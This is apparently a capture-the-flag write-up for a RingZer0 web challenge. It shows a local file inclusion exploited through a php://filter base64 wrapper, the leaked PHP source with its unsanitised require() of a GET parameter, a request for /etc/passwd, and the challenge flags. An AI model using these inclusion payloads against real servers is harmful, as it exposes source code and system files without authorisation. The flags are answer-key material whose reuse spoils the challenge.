 <h1>Looking for password</h1>
<p>Because of the web are set allow_url_include to off. So, we are only inject the code with php://</p>
<p>http://ringzer0team.com:1008/?page=php://filter/convert.base64-encode/resource=index.php<br/>
We get an base64 string. Decode it.
</p>

```php
<?php
error_reporting(E_ALL);
ini_set('display_errors', 1);
$include = isset($_GET['page']) ? $_GET['page'] : 'lorem.php';
// FLAG-MeCXGBsrLlYtdxlxSbumtUbb4J
?>
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">

    <title>RingZer0 Team CTF - Challenge</title>

    <!-- Bootstrap core CSS -->
    <link href="css/bootstrap.min.css" rel="stylesheet">

    <!-- Custom styles for this template -->
    <link href="jumbotron.css" rel="stylesheet">

  </head>

  <body>

    <nav class="navbar navbar-inverse navbar-fixed-top" >
      <div class="container">
        <div class="navbar-header">
          <a class="navbar-brand" href="#" style="color: white;">RingZer0 Team CTF - Challenge</a>
        </div>
        <div id="navbar" class="navbar-collapse collapse">
		<div class="navbar-form navbar-right">
		</div>
        </div><!--/.navbar-collapse -->
      </div>
    </nav>

    <!-- Main jumbotron for a primary marketing message or call to action -->
    <div class="jumbotron">
      <div class="container">
        <h1>About Us</h1>
        <p>
	<?php require($include); ?>
	</p>
      </div>
    </div>

      <hr>
<div class="container">
      <footer>
        <p>&copy; RingZer0 Team CTF 2014 - <?php echo date('Y'); ?></p>
      </footer>
    </div> <!-- /container -->
  </body>
</html>
```

<p>The page contains the flag:FLAG-MeCXGBsrLlYtdxlxSbumtUbb4J</br>
But the flag are not correct! Will it in http://ringzer0team.com:1008/?page=/etc/passwd?<br/>
Finally we get:FLAG-zH9g1934v774Y7Zx5s16t5ym8Z</p>
